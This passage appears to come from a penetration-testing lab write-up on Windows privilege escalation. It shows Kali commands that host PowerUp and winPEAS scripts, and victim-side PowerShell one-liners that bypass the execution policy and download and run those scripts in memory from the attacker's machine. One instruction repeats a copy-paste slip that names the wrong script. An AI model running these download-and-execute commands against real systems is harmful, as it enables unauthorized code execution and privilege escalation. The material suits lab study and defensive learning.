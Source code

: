 Load PowerUp.ps1 into memory.

**Kali**

```
wget https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1
python2 -m SimpleHTTPServer 81
```

Add the following line at the bottom to PowerUp.ps1 so it Invokes all checks automatically once downloaded

**PowerUp.ps1**

```
Invoke-AllChecks
```

**Victim(powershell)**

<pre><code>powershell -ep bypass
<strong>iex​(New-Object Net.WebClient).DownloadString('http://$KALI:81/PowerUp.ps1')
</strong></code></pre>

**Kali**

```
wget https://gist.githubusercontent.com/S3cur3Th1sSh1t/d14c3a14517fd9fb7150f446312d93e0/raw/2318ef41f55e7e1a2172a2e67551201c24ee7681/Invoke-winPEAS.ps1
python2 -m SimpleHTTPServer 81
```

Add the following line at the bottom to PowerUp.ps1 so it Invokes all checks automatically once downloaded

**Invoke-winPEAS.ps1**

```
Invoke-AllChecks
```

**Victim(powershell)**

<pre><code>powershell -ep bypass
<strong>iex​(New-Object Net.WebClient).DownloadString('http://$KALI:81/Invoke-winPEAS.ps1') 
</strong></code></pre>

## Privilege Escalation Option #1

For this I wouldn't normally know how to detect but when you open up chrome  the exploit is already bookmarked.

<figure><img src="../../.gitbook/assets/image (74) (2).png" alt=""><figcaption></figcaption></figure>
